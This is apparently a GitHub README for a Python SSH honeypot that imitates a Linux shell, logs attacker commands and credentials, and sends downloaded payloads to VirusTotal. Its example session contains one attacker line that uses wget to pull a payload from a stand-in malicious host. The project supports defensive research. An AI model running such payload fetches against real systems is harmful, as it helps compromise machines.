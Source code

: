 # SSH Honeypot - Fake SSH Server

![Honeypot Banner](https://img.shields.io/badge/SSH-Honeypot-blue?style=for-the-badge)

A lightweight and interactive **SSH honeypot** that simulates a realistic Linux environment to capture malicious behaviors.

🛡️ Developed with **Python**, using **Paramiko** for SSH protocol handling.  
🛡️ Designed for **deception**, **attack analysis**, and **cybersecurity research**.

---

## 🚀 Features

- Accepts **SSH password authentication** with realistic banners
- Simulates Linux shell environment:
  - `ls`, `pwd`, `uname -a`, `whoami`, `who`, `ps`, `cd`, etc.
- **Realistic "who" command** (shows attacker's session and fake others)
- **Dynamic fake "ps" command** (randomized process list)
- **Supports file download simulation**:
  - Detects `wget` and `curl` commands
  - Downloads payloads locally
  - **Automatic VirusTotal upload and report** (if API key configured)
- **Every typed command is logged**:
  - Human-readable logs and structured JSON logs
- Handles **exit** and **quit** commands cleanly (logout)
- **Separate SSH keys** generated for each source IP
- **Session timeout handling** (idle detection with prompt recovery)
- **Error-resistant SSH handling** (handles broken/invalid connections)
- **Concurrent connections** supported (multi-threaded)
- Can reject the connexion if login = password with a setting (LOGINPASSWD=False)
- Special credentials behavior: define EXCEPTION_CREDENTIALS to tag suspicious logins differently
- Fully **configurable** via `.env` file
- **Docker-ready** deployment

---

## 📦 Installation

### 1. Clone the repository
```bash
git clone https://github.com/jmousqueton/ssh-honeypot.git
cd ssh-honeypot
```

### 2. Create and configure the `.env` file
Copy the example and edit if needed:
```bash
cp .env.example .env
```

Available `.env` variables:

| Variable | Default | Description |
|:---------|:--------|:------------|
| `HOST` | `0.0.0.0` | Interface to bind the SSH server |
| `PORT` | `22` | Port to listen on |
| `LOG_PATH` | `./logs` | Path to save log files |
| `SERVICE_NAME` | `ssh-honeypot` | Prefix for log files |
| `LOGINPASSWD` | `True` | Refuse logins where login==password |
| `SSH_KEY_BITS` | `2048` | Size of generated SSH RSA keys |
| `DEBUG` | `False` | Enable verbose debug output |
| `VT_API_KEY` | (optional) | VirusTotal API key for file analysis |

---

## 🐉 Docker Deployment

### Build and run with Docker

```bash
docker build -t ssh-honeypot .
docker run -d --restart unless-stopped --env-file .env -p 22:22 -v $(pwd)/logs:/opt/pot-de-miel/sshd/logs --name ssh-honeypot ssh-honeypot
```

Or using `docker-compose`:

```bash
docker-compose up -d
```

---

## 📜 Logs

- **Human-readable log**:  
  `logs/ssh-honeypot.log`

- **JSON structured log**:  
  `logs/ssh-honeypot.jsonl`

Each log line includes:
- Source IP
- Username
- Password
- Session ID
- **All commands executed**
- **Payload download events** (URL, file hash)
- **VirusTotal scan results** (if configured)

---

## 🛠️ Supported Commands

| Command | Behavior |
|:--------|:---------|
| `ls` | List fake directory contents |
| `pwd` | Show fake current directory |
| `whoami` | Return "root" |
| `who` | Display attacker and fake users |
| `ps`, `ps aux`, `ps -ef` | Randomly generated fake process list |
| `cd <dir>` | Change directory (if exists in fake filesystem) |
| `wget <url>`, `curl <url>` | Fake download + local file saving + VirusTotal analysis |
| `uname -a` | Fake randomized Linux system information |
| `exit`, `quit` | Disconnect properly |

---

🔐 Special Credentials
You can define credentials that trigger special behavior (alert in logs) using the EXCEPTION_CREDENTIALS list.

Example configuration:

```python
EXCEPTION_CREDENTIALS = [
    ("*", "3245gs5662d34"),
    ("admin", "*"),
    ("testuser", "testpass123"),
]
```

Meaning:

- Any username using password `3245gs5662d34` is rejected 
- Username `admin` with any password is rejected
- Username `testuser` with password `testpass123` is rejected

When triggered, the logs will tag these authentication attempts differently (auth_attempt_exception).

---

## 📋 Example Session

```bash
ssh julien@honeypot_ip
julien@honeypot_ip's password:
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.15.0-76-generic)

root@iot-gateway:~# who
julien   pts/1    2025-04-27 16:30 (82.65.156.219)
admin    pts/0    2025-04-27 14:10 (10.0.0.5)

root@iot-gateway:~# ps aux
root      1523  0.0  0.5  11032  5232 ?        Ss   14:21   0:00 /usr/sbin/sshd -D
mysql     2124  0.2  1.0 120000 15324 ?        Sl   14:20   0:02 /usr/sbin/mysqld

root@iot-gateway:~# wget http://malicious.example.com/payload
root@iot-gateway:~# exit
logout
Connection to honeypot_ip closed.
```

---

## ⚠️ Important Notes

- This honeypot **simulates** a Linux environment — no real shell is exposed.
- **NEVER expose** this honeypot directly to critical infrastructure.
- Use strict **firewall** and **network monitoring** for deployments.

---

## 📚 License

MIT License — Free for educational and research use.  
Not intended for malicious activities.

---

## ❤️ Contributions

Pull Requests are welcome!  
Ideas like fake netstat, fake file upload, full session playback, etc. are encouraged!

---
